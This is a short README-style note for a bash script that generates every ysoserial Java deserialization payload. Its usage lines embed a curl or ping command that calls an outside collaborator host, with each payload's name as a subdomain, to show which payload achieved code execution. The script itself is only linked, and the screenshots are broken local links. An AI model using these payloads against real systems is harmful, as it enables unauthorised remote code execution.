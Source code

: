 # ysoserial-generate-all-payloads
### \-> Generates all ysoserial payloads, and can also let you know which payload worked.
### Usage:
```Bash
./generate_payloads.sh <commands>
./generate_payloads.sh --curl 'collaborator-link' #Adds payload name as a subdomain, so you can check which payload worked.
./generate_payloads.sh --request 'curl' 'collaborator-link' #Same as --curl, but you can choose the command to use. E.g. use ping instead of curl.
```
- **![ab9985f44faa04a8d34e5667651606eb.png](file:///C:/Users/useru/.config/joplin-desktop/resources/c3a7b9ad71bf4dadaaf7e75e23396859.png)**
**Script: here**
**Payloads list: [here](https://github.com/WafflesExploits/Rep/blob/main/OtherScripts/BashScripts/payloads.txt)**

**You can also send a HTTP request to your collaborator link, with the subdomain being the name of the payload. This way, you know which payload works:**

- ![63da3eeffa1e509d262abd53b06081ec.png](file:///C:/Users/useru/.config/joplin-desktop/resources/f5b273c5955d46d8b3c8cb04c472b5d7.png)
- ![c8f4434126d5a991d19ece6635a66b9b.png](file:///C:/Users/useru/.config/joplin-desktop/resources/d5c2a89d2ebf433b994a7bd4c4e6d6d9.png)
- ![78fee57aa122b970f939e482faeb3703.png](file:///C:/Users/useru/.config/joplin-desktop/resources/8a68ea2ed57944ae87f76ccc51c98241.png)
